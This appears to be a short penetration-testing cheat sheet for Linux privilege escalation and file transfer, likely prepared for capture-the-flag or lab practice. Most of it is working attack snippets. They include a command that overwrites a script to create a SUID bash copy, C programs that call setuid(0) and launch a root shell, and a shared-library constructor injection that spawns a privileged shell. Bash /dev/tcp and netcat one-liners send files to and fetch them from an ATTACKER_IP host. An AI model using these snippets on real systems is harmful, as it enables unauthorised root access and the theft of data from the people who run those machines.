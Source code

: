 


###  Usefull Scripts or C file codes:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);   // Set user ID to root
    setgid(0);   // Set group ID to root
    system("/bin/bash");  // Launch a root shell
    return 0;
}

gcc /tmp/rootme.c -o /tmp/rootme

```

```c
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```



> [!INFO]
> Now at last run linux automation scripts like linpeas or winpeas.



## File transfer :
```bash
# Upload
bash -c 'cat /path/to/file > /dev/tcp/ATTACKER_IP/PORT'

# Download
bash -c 'cat < /dev/tcp/ATTACKER_IP/PORT > file_saved'


# Upload
nc ATTACKER_IP PORT < /path/to/file

# Download
nc ATTACKER_IP PORT > file_saved

# Listen to receive
nc -lnvp PORT > received_file

# Listen to send
nc -lnvp PORT < /path/to/file

```